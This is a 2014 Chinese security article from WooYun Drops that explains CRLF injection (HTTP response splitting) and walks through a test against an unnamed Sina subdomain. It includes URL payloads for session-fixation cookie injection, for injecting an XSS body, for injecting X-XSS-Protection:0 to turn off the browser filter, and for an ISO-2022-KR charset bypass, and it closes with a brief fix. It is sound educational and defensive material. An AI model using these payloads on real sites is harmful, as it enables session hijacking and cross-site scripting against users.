




# CRLF Injection 漏洞的利用与实例分析

2014/06/29 16:17 | [phith0n](http://drops.wooyun.org/author/phith0n "由 phith0n 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

CRLF Injection 很少遇见，这次被我逮住了。我看 zone 中（[`zone.wooyun.org/content/13323`](http://zone.wooyun.org/content/13323)）还有一些同学对于这个漏洞不甚了解，甚至分不清它与 CSRF，我详细说一下吧。

CRLF 是”回车 + 换行”（\r\n）的简称。在 HTTP 协议中，HTTP Header 与 HTTP Body 是用两个 CRLF 分隔的，浏览器就是根据这两个 CRLF 来取出 HTTP 内容并显示出来。所以，一旦我们能够控制 HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话 Cookie 或者 HTML 代码，所以 CRLF Injection 又叫 HTTP Response Splitting，简称 HRS。

HRS 是比 XSS 危害更大的安全问题，具体是为什么，我们往下看。

对于 HRS 最简单的利用方式是注入两个\r\n，之后在写入 XSS 代码，来构造一个 xss。

## 0x01 实例

* * *

举个例子，一般网站会在 HTTP 头中用 Location: http://baidu.com 这种方式来进行 302 跳转，所以我们能控制的内容就是 Location:后面的 XXX 某个网址。

所以一个正常的 302 跳转包是这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://www.sina.com.cn 
```

但如果我们输入的是

```
http://www.sina.com.cn%0aSet-cookie:JSPSESSID%3Dwooyun 
```

注入了一个换行，此时的返回包就会变成这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://www.sina.com.cn 
Set-cookie: JSPSESSID=wooyun 
```

这个时候这样我们就给访问者设置了一个 SESSION，造成一个“会话固定漏洞”。

当然，HRS 并不仅限于会话固定，通过注入两个 CRLF 就能造成一个无视浏览器 Filter 的反射型 XSS。

比如一个网站接受 url 参数 http://test.sina.com.cn/?url=xxx，xxx 放在 Location 后面作为一个跳转。如果我们输入的是

```
http://test.sina.com.cn/?url=%0d%0a%0d%0a 
```

我们的返回包就会变成这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location:
 
```

之前说了浏览器会根据第一个 CRLF 把 HTTP 包分成头和体，然后将体显示出来。于是我们这里

为什么说是无视浏览器 filter 的，这里涉及到另一个问题。

浏览器的 Filter 是浏览器应对一些反射型 XSS 做的保护策略，当 url 中含有 XSS 相关特征的时候就会过滤掉不显示在页面中，所以不能触发 XSS。

怎样才能关掉 filter？一般来说用户这边是不行的，只有数据包中 http 头含有 X-XSS-Protection 并且值为 0 的时候，浏览器才不会开启 filter。

说到这里应该就很清楚了，HRS 不正是注入 HTTP 头的一个漏洞吗，我们可以将 X-XSS-Protection:0 注入到数据包中，再用两个 CRLF 来注入 XSS 代码，这样就成功地绕过了浏览器 filter，并且执行我们的反射型 XSS。

所以说 HRS 的危害大于 XSS，因为它能绕过一般 XSS 所绕不过的 filter，并能产生会话固定漏洞。

* * *

我们来一个真实案例吧。 新浪某分站含有一个 url 跳转漏洞，危害并不大，于是我就想到了 CRLF Injection，当我测试

```
http://xxx.sina.com.cn/?url=%0a%0d%0a%0d%3Cimg%20src=1%3E 
```

的时候，发现图片已经输出在页面中了，说明 CRLF 注入成功了：



那么我们试试 XSS 看看：



看控制台，果然被 XSS Filter 拦截了。

那么我们就注入一个

```
X-XSS-Protection:0 
```

到数据包中，看看什么效果：



@mramydnei 还想到了一个利用字符编码来绕过 XSS Filter 的方法，当编码是 is-2022-kr 时浏览器会忽略%0f，这样我们在 onerror 后面加个%0f 就能绕过 filter，前提是注入一个

```
<meta charset=ISO-2022-KR> 
```



当然，在 Location:这里注入只有 webkit 内核浏览器才能够利用，其他浏览器可能会跳转、出错。不过对于 chrome 的使用量来说，危害已经足够了。

## 0x02 修复

* * *

如何修复 HRS 漏洞，当然是过滤\r 、\n 之类的换行符，避免输入的数据污染到其他 HTTP 头。

版权声明：未经授权禁止转载 [phith0n](http://drops.wooyun.org/author/phith0n "由 phith0n 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [一起针对国内企业 OA 系统精心策划的大规模钓鱼攻击事件](http://drops.wooyun.org/tips/2562)
*   [Dionaea 蜜罐指南](http://drops.wooyun.org/papers/4584)
*   [IIS WebDAV 安全配置](http://drops.wooyun.org/papers/238)
*   [Linux 通配符可能产生的问题](http://drops.wooyun.org/papers/2448)
*   [代码审计之逻辑上传漏洞挖掘](http://drops.wooyun.org/papers/1957)
*   [Shellshock 漏洞回顾与分析测试](http://drops.wooyun.org/papers/3268)